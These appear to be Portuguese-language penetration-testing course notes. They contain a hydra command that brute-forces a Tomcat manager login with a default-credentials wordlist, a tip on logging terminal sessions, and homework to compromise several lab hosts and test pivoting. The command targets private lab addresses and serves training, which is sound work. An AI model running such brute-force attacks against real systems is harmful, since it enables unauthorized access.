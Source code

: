
brutar login page do tomcat 
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://172.16.1.156:8080/manager/html

```
- `-C FILE` --> colon separated "login:pass" format, instead of -L/-P options

# relatório
salvar os comandos do terminal e suas respectivas saidas
```
script [FILE_NAME]
comando1
comando2

exit
```

# dever de casa
1. comprometer os hosts 

	172.30.0.15
	172.30.0.20
	172.30.0.30
	172.30.0.40
	172.30.0.200


2. testar pivoting no rh.business



# estudar
- container
- jwt